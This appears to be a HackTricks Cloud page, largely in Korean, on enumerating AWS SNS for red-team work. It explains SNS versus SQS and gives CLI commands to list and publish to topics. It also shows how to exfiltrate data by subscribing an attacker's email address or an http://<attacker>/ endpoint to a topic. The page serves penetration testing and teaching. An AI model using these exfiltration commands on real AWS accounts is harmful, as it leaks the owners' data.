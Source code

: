 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS)는 **완전 관리형 메시징 서비스**로 설명됩니다. 이는 **애플리케이션 간** (A2A) 및 **애플리케이션-사람 간** (A2P) 통신 유형을 모두 지원합니다.

A2A 통신의 주요 기능에는 **발행/구독 (pub/sub) 메커니즘**이 포함됩니다. 이러한 메커니즘은 **주제**를 도입하여 고처리량, **푸시 기반, 다대다 메시징**을 가능하게 합니다. 이 기능은 분산 시스템, 마이크로서비스 및 이벤트 기반 서버리스 아키텍처와 관련된 시나리오에서 매우 유리합니다. 이러한 주제를 활용하여 발행 시스템은 **다양한 구독 시스템**에 메시지를 효율적으로 배포할 수 있으며, 팬아웃 메시징 패턴을 촉진합니다.

### **SQS와의 차이점**

**SQS**는 **큐 기반** 서비스로, 메시지가 **단일 소비자**에 의해 처리되도록 보장하는 포인트 투 포인트 통신을 허용합니다. 이는 **최소 한 번의 전달**을 제공하며, 표준 및 FIFO 큐를 지원하고, 재시도 및 지연 처리를 위한 메시지 보존을 허용합니다.\
반면에, **SNS**는 **발행/구독 기반 서비스**로, 메시지를 **여러 구독자**에게 동시에 방송하여 **일대다** 통신을 가능하게 합니다. 이는 **이메일, SMS, Lambda 함수, HTTP/HTTPS와 같은 다양한 구독 엔드포인트**를 지원하며, 타겟 메시지 전달을 위한 필터링 메커니즘을 제공합니다.\
두 서비스 모두 분산 시스템에서 구성 요소 간의 디커플링을 가능하게 하지만, SQS는 큐 통신에 중점을 두고, SNS는 이벤트 기반, 팬아웃 통신 패턴을 강조합니다.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**FIFO 유형의 topic**인 경우, **SQS** 프로토콜을 사용하는 구독자만 사용할 수 있습니다 (HTTP 또는 HTTPS는 사용할 수 없습니다).

또한, `--topic-arn`에 지역이 포함되어 있더라도 **`--region`**에 올바른 지역을 지정해야 합니다. 그렇지 않으면 접근 권한이 없다는 오류가 발생할 수 있지만 실제 문제는 지역 설정입니다.
{% endhint %}

#### Unauthenticated Access

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Privilege Escalation

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistence

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## References

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS Hacking 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
